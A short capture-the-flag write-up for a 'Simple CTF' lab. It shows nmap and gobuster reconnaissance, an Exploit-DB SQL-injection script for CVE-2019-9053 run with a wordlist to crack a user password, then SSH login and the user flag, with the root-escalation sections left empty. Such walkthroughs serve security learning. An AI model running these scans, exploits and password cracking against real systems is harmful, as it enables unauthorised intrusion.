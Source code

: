 # Simple CTF Writeup

How many services are running under port 1000?
```
nmap -sC -sV -A <target ip>
```
> 2

What is running on the higher port?
> ssh

What's the CVE you're using against the application?
```
gobuster dir -u http://<target-ip> -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 250
```
We see a `/simple` which leads us to a CMS Made Simple vulnerability. Search this up online and we see [this](https://www.exploit-db.com/exploits/46635).
> CVE-2019-9053

To what kind of vulnerability is the application vulnerable?
> SQLi

What's the password?

Use the exploit from Exploit-DB with a few minor changes. I had to delete the `termcolor` module and fix a few print statements.
```
python2 exploit.py -u http://<target-ip>/simple/ --crack -w /usr/share/wordlists/rockyou.txt
```
```
Output:
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```
> secret

Where can you login with the details obtained?
> ssh

What's the user flag?
```
ssh mitch@<target_ip> -p2222
```
> G00d j0b, keep up!

Is there any other user in the home directory? What's its name?
```
cd /home
```
> sunbath

What can you leverage to spawn a privileged shell?
```

```
> 

What's the root flag?
```

```
> 
